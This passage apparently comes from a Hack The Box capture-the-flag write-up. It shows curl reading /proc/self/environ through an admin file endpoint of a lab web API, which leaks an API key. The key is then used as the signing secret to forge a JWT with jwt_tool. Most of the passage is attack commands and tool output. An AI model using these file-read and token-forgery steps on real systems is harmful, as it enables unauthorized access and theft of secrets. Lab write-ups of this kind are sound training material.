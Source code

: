 ```bash
$ filename=$(echo -n '/proc/self/environ' | base64 -w 0); curl -s -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjYyMjU3NjgxLCJpYXQiOjE2NjE1NjY0ODEsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiOGMyODk2MDMtN2JhNS00ZGNjLTlmN2ItNTBjN2EyNDg5ODRiIn0.PI_NGiM1QT17mdkAG9m0dJFpPp5tTAuBgAxnzG1dNGk' http://10.129.227.139/api/v1/admin/file/$filename
{"file":"USER=htb\u0000HOME=/home/htb\u0000OLDPWD=/\u0000PORT=80\u0000LOGNAME=htb\u0000JOURNAL_STREAM=9:18105\u0000APP_MODULE=app.main:app\u0000PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\u0000INVOCATION_ID=5ed1791a3db949e2bca854e432a03ba8\u0000LANG=C.UTF-8\u0000API_KEY=68b329da9893e34099c7d8ad5cb9c940\u0000HOST=0.0.0.0\u0000PWD=/home/htb\u0000"} 
```

Leverage the JWT secret to forge a JWT with a `debug` key.

```bash
$ python3 jwt_tool.py 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjYyMjU3NjgxLCJpYXQiOjE2NjE1NjY0ODEsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiOGMyODk2MDMtN2JhNS00ZGNjLTlmN2ItNTBjN2EyNDg5ODRiIn0.PI_NGiM1QT17mdkAG9m0dJFpPp5tTAuBgAxnzG1dNGk' -T -S hs256 -p '68b329da9893e34099c7d8ad5cb9c940'

        \   \        \         \          \                    \
   \__   |   |  \     |\__    __| \__    __|                    |
         |   |   \    |      |          |       \         \     |
         |        \   |      |          |    __  \     __  \    |
  \      |      _     |      |          |   |     |   |     |   |
   |     |     / \    |      |          |   |     |   |     |   |
\        |    /   \   |      |          |\        |\        |   |
 \______/ \__/     \__|   \__|      \__| \______/  \______/ \__|
 Version 2.2.5                \______|             @ticarpi

Original JWT:


====================================================================
This option allows you to tamper with the header, contents and
signature of the JWT.
====================================================================

Token header values:
[1] alg = "HS256"
[2] typ = "JWT"
[3] *ADD A VALUE*
[4] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0

Token payload values:
[1] type = "access_token"
[2] exp = 1662257681    ==> TIMESTAMP = 2022-09-03 22:14:41 (UTC)
[3] iat = 1661566481    ==> TIMESTAMP = 2022-08-26 22:14:41 (UTC)
[4] sub = "12"
[5] is_superuser = True
[6] guid = "8c289603-7ba5-4dcc-9f7b-50c7a248984b"
[7] *ADD A VALUE*
[8] *DELETE A VALUE*
[9] *UPDATE TIMESTAMPS*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 7
Please enter new Key and hit ENTER
```